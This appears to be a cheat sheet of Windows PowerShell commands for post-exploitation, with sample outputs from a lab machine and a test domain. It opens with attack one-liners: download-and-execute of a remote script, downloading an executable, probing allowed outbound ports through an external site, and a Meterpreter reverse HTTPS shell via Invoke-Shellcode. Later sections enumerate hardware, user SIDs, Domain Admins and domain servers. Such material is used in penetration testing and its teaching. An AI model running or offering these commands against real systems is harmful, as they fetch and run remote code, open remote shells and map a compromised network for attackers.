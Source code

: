 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows Powershell Commands and Scripts for Post Exploitation

# One liners

**Download and Execute Remote Powershell Script**

```
iex (New-Object Net.WebClient).DownloadString("http://host/file.txt")
```

**Download and Save File**

```
(new-object System.Net.WebClient).Downloadfile('http://host/file.exe', 'file.exe')
```

**Enumerate Allowed Outbound Ports 1-1024 via [securitypadawan.blogspot.com](http://securitypadawan.blogspot.com/2013/04/quickly-determine-allowed-outbound-ports.html)**

```
$ErrorActionPreference = "silentlycontinue"; 1..1024 | % {$req = [System.Net.WebRequest]::Create("http://letmeoutofyour.net:$_"); $req.Timeout = 600; $resp = $req.GetResponse(); $respstream = $resp.GetResponseStream(); 
$stream = new-object System.IO.StreamReader $respstream; $out = $stream.ReadToEnd(); if ($out.trim() -eq "w00tw00t"){echo "$_ Allowed out"}}
```

**Reverse Shell Using [PowerSploit's Invoke-Shellcode](https://github.com/mattifestation/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)**

```
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.1.10 -Lport 443 -Force
```

----

# Commands with Sample Output
## Hardware
### Get BIOS Information
 * **Command with arguments**: `gwmi win32_bios`
 * **Description**: Retrieves BIOS information including system serial number.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32_bios<br>SMBIOSBIOSVersion : 6.00<br>Manufacturer      : Phoenix Technologies LTD<br>Name              : PhoenixBIOS 4.0 Release 6.0<br>SerialNumber      : VMware-56 4d 9b 0f 26 ba 8c f9-6e 7a 1e 33 5d 3c f0 dc<br>Version           : INTEL  - 6040000</code></div> 
   
### Get Drive Information
 * **Command with arguments**: `[System.IO.DriveInfo]::GetDrives()`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> [System.IO.DriveInfo]::GetDrives()<br><br>Name               : C:\<br>DriveType          : Fixed<br>DriveFormat        : NTFS<br>IsReady            : True<br>AvailableFreeSpace : 55568087552<br>TotalFreeSpace     : 55568087552<br>TotalSize          : 159876850304<br>RootDirectory      : C:\<br>VolumeLabel        : <br><br>Name               : D:\<br>DriveType          : CDRom<br>DriveFormat        : <br>IsReady            : False<br>AvailableFreeSpace : <br>TotalFreeSpace     : <br>TotalSize          : <br>RootDirectory      : D:\<br>VolumeLabel        : <br><br>Name               : G:\<br>DriveType          : Removable<br>DriveFormat        : <br>IsReady            : False<br>AvailableFreeSpace : <br>TotalFreeSpace     : <br>TotalSize          : <br>RootDirectory      : G:\<br>VolumeLabel        : <br><br>Name               : V:\<br>DriveType          : Network<br>DriveFormat        : NTFS<br>IsReady            : True<br>AvailableFreeSpace : 259182640616<br>TotalFreeSpace     : 259182640616<br>TotalSize          : 827361812256<br>RootDirectory      : V:\<br>VolumeLabel        : TestMappedDrive</code></div> 

## User Information
### Display Username, SID, Last Used
 * **Command with arguments**: `gwmi win32_userprofile | select -unique @{name="Name";expression={$_.__server}},@{name="SID";expression={$_.sid}},@{name="LastUseTime";expression={$_.converttodatetime($_.lastusetime)}},localpath | ft -auto`
 * **Description**: Retrieves information about system users.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> gwmi win32\_userprofile | select -unique @{name="Name";expression={$\_.\_\_server}},@{name="SID";expressi<br>on={$\_.sid}},@{name="LastUseTime";expression={$\_.converttodatetime($\_.lastusetime)}},localpath | ft -auto<br><br>Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SID&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LastUseTime&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;localpath<br>----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-----------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------<br>WIN-244VDGE5OGH&nbsp;S-1-5-21-1319606305-3131390644-2280705280-1000&nbsp;4/13/2012&nbsp;7:52:02&nbsp;PM&nbsp;C:\Users\johndoe<br>WIN-244VDGE5OGH&nbsp;S-1-5-20&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\ServiceProfiles\Netwo...<br>WIN-244VDGE5OGH&nbsp;S-1-5-19&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\ServiceProfiles\Local...<br>WIN-244VDGE5OGH&nbsp;S-1-5-18&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\Windows\system32\config\syste...</code></div> 
   
### Translate SID to Username
 * **Command with arguments**: `((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-19")).translate([System.Security.Principal.NTAccount])).value`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>PS C:\Users\johndoe> ((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-1319606305-3131390644-2280705280-<br>1000")).translate([System.Security.Principal.NTAccount])).value<br>WIN-244VDGE5OGH\johndoe</code></div> 
   
 ## Using the PowerShell Active Directory Modules
 ### Via https://www.trustedsec.com/uncategorized/powershell-reconnaissance/
 ### Setting Credentials 
 * **Command with arguments**: `$cred = Get-Credential`
 * **Notes**: These following commands require the Powershell Active Directory Modules to be installed. These can be downloaded for Win7 [here] (http://www.microsoft.com/en-us/download/details.aspx?id=7887) 
   
 ### Query to List "Domain Admins" 
 * **Command with arguments**: `Get-ADGroupMember -Credential $cred -server pwnt.com "Domain Admins"`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>distinguishedName : CN=Administrator,CN=Users,DC=pwnt,DC=com<br>name              : Administrator<br>objectClass       : user<br>objectGUID        : 1fd60ff8-07a4-4c6e-9a1e-7cd0d7bb97db<br>SamAccountName    : Administrator<br>SID               : S-1-5-21-2027135834-1792351174-2509185371-500</code></div> 
   
 ### Enumerate All Servers on Domain 
 * **Command with arguments**: `Get-ADComputer -Credential $cred -server pwnt.com -LDAPFilter "(&(objectCategory=computer)(opera
tingSystem=*Server*))" |select name`
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 7:** Show/Hide</div><div class="view"><code>name<br>----<br>PWNT-DC<br>
Exchange1<br>
SharePoint1</code></div> 